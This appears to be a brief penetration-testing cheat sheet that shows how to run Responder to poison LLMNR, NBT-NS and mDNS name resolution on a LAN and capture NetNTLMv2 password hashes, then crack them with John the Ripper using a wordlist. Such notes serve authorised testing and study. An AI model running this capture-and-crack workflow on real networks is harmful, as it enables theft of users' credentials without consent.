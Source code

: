 **1. Responder**

Github: https://github.com/SpiderLabs/Responder
Attack and exploit insecure name resolution protocols in the LAN:
- LLMNR (Link-Local Multicast Name Resolution)
- NBT-NS (NetBIOS Name Service)
- mDNS (Multicast DNS)
```
python2 Responder.py -I eth0
```
=> Collect the hash user/password

**2. John**

Check and crack the hashed password
```
john hash --wordlist=/.../rock.. --format=netntlmv2
```
=> Crack the hashed password collected from Responder
